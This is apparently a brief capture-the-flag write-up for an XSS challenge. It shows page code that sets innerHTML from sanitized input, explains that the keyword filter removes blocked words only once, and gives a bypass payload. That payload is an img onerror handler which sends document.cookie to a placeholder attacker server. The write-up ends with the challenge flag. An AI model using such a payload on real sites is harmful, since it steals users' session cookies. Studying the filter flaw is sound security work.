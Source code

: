 ```jsx
	let sanitized = sanitize(Arg("content"));
	content.innerHTML = sanitized;

	document.body.style.backgroundColor = Arg("background_color");
	document.body.style.color = Arg("color");
	document.body.style.fontFamily = Arg("font");
	content.style.fontSize = Arg("font_size") + "px";
}

display();
```

On inspecting the display.js , it replaces the script,on,iframe,object,embed,cookie elements to “”.

so, what if we give the input like scrscriptipt. It removes the script string inside that string and it became again script !!.

So, the actual payload is 

```jsx
<img src=x oonnerror=this.src='http://yourserver/?'+document.coocookiekie;>
```

submit the created content url to the bot server.!!

Here is the flag :
`flag{filter_fail}`